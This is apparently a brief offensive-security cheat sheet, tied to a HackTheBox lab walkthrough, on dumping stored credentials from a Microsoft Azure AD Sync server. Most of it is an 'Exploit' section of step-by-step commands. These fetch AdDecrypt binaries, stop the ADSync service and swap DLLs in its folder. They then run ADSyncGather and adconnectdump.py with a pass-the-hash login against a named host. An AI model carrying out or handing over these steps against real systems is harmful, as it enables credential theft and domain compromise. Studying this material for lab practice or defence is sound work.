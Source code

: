# AD Sync

Dumping Password from AD Sync, Need admin privilege on sync machine.

## Check

+ Admin privilege.
+ Folder exist on `C:\Program Files\Microsoft Azure AD Sync`
+ Check service : `Get-CimInstance -ClassName Win32_Service -Filter "Name = 'ADSync'" | Select-Object Name, StartMode, State` 

## Exploit

1. Download the prebuild binary on [here](https://github.com/VbScrub/AdSyncDecrypt/releases), unzip get `AdDecrypt.exe` and `mcrypt.dll`.
2. Stop service : `stop-service ADSync`.
3. Upload those two file on `C:\Program Files\Microsoft Azure AD Sync\bin`, dont forgot to backup `mcrypt.dll`.
4. Start service : `start-service ADSync`.
5. Run `ADSyncGather.exe`, build from [here](https://github.com/dirkjanm/adconnectdump/tree/master), and save output into `result.txt`.
6. Run `python3 adconnectdump.py SRV001/administrator@srv001.manesec.com -hashes :xxxxxxxxxxxxxxxxx --from-file res.txt`


# Reference

+ https://offs3cg33k.medium.com/monteverde-htb-walkthrough-d6e4324da7e0